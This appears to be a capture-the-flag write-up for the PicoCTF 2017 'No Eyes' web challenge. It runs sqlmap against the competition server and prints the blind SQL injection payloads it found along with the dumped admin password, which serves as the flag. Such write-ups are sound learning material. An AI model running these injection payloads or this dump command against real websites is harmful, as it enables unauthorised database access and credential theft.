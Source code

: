 # PicoCTF_2017: No Eyes

**Category:** Web Exploitation
**Points:** 125
**Description:**

>The [website](http://shell2017.picoctf.com:21088/) isn't really me much, but you can still get the admin password, right?

**Hint:**

>Sometimes an error message can be just as useful.

## Write-up
For this one, instead of crafting our own queries, let's use the amazing tool, [SQLMap](https://github.com/sqlmapproject/sqlmap), an automated SQL injection tool.

    ./sqlmap.py -u http://shell2017.picoctf.com:21088/ --data "username=admin&password=password" -o --threads=10 --level 5 --risk 3  --dump
            ___
           __H__
     ___ ___[)]_____ ___ ___  {1.1.3.19#dev}
    |_ -| . ["]     | .'| . |
    |___|_  [)]_|_|_|__,|  _|
          |_|V          |_|   http://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting at 09:06:58

    [09:06:58] [INFO] resuming back-end DBMS 'sqlite' 
    [09:06:58] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: password (POST)
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
        Payload: username=admin&password=password' OR NOT 4034=4034-- ndmv

    Parameter: username (POST)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: username=admin' AND 1940=1940-- Wbwv&password=password
    ---
    there were multiple injection points, please select the one to use for following injections:
    [0] place: POST, parameter: username, type: Single quoted string (default)
    [1] place: POST, parameter: password, type: Single quoted string
    [q] Quit
    > 0
    [09:07:05] [INFO] the back-end DBMS is SQLite
    back-end DBMS: SQLite
    [09:07:05] [INFO] fetching tables for database: 'SQLite_masterdb'
    [09:07:05] [INFO] fetching number of tables for database 'SQLite_masterdb'
    [09:07:05] [INFO] retrieved: 
    [09:07:05] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
    [09:07:05] [WARNING] if the problem persists please try to lower the number of used threads (option '--threads')
    1
    [09:07:06] [INFO] retrieving the length of query output
    [09:07:06] [INFO] retrieved: 5
    [09:07:09] [INFO] retrieved: us_r_ 3/5 (60%)
    [09:07:13] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
    [09:07:14] [INFO] retrieved: users           
    [09:07:14] [INFO] retrieving the length of query output
    [09:07:14] [INFO] retrieved: 40
    [09:07:24] [INFO] retrieved: CREATE TABLE users(user text, pass text)        
    [09:07:24] [INFO] fetching entries for table 'users' in database 'SQLite_masterdb'
    [09:07:24] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'
    [09:07:24] [INFO] retrieved: 1
    [09:07:25] [INFO] retrieving the length of query output
    [09:07:25] [INFO] retrieved: 63
    [09:07:40] [INFO] retrieved: not_all_errors_should_be_shown_3c826cdcbf6f146ac6f86e6b65d3b1de
    [09:07:40] [INFO] retrieving the length of query output
    [09:07:40] [INFO] retrieved: 5
    [09:07:44] [INFO] retrieved: admin           
    [09:07:44] [INFO] analyzing table dump for possible password hashes
    Database: SQLite_masterdb
    Table: users
    [1 entry]
    +-------+-----------------------------------------------------------------+
    | user  | pass                                                            |
    +-------+-----------------------------------------------------------------+
    | admin | not_all_errors_should_be_shown_3c826cdcbf6f146ac6f86e6b65d3b1de |
    +-------+-----------------------------------------------------------------+

    [09:07:44] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/root/.sqlmap/output/shell2017.picoctf.com/dump/SQLite_masterdb/users.csv'
    [09:07:44] [INFO] fetched data logged to text files under '/root/.sqlmap/output/shell2017.picoctf.com'

    [*] shutting down at 09:07:44

Therefore, the flag is `not_all_errors_should_be_shown_3c826cdcbf6f146ac6f86e6b65d3b1de`.